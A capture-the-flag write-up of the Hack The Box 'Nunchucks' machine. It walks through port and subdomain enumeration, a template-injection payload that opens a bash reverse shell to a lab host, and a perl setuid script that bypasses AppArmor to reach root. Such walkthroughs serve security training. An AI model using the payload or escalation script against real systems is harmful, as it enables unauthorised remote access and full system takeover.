







# Hack The Box Nunchucks
## Difficulty : Easy
## OS : Linux

## Enumeration 

I'll start with a simple port scan.

```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.95.252
```



After adding the domain name to our "/etc/hosts" file we can see the webpage.


Using dirsearch we find more pages.

```bash
dirsearch -u https://nunchucks.htb 
```



Using ffuf we find a new subdomain.

```bash
sudo ffuf -u https://10.129.95.252 -H 'HOST: FUZZ.nunchucks.htb' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fs 30589
```



We find a SSTI vulnerability.


Using the following payload I managed to get a reverse shell on the target.

```bash
{
    "email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash -c \\\"bash -i >& /dev/tcp/10.10.14.54/6666 0>&1\\\"')\")()}}"
}
```



I'll get the user flag.

```bash
cd ~
ls
cat user.txt
```

## We got the user flag!

## Privilege Escalation

Using linpeas we find that "/usr/bin/perl" has SUID Capabilities.



I found an apparmor profile for perl in "etc/apparmor.d/".

```bash
cd etc/apparmor.d/
ls
cat usr.bin.perl
```



Making a script that uses perl allows us to bypass apparmor.

Script:
```perl
#!/usr/bin/perl

use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";
```

I'll run the script and get the root flag.

```bash
chmod +x script
./script
cat /root/root.txt
```



## We got the root flag!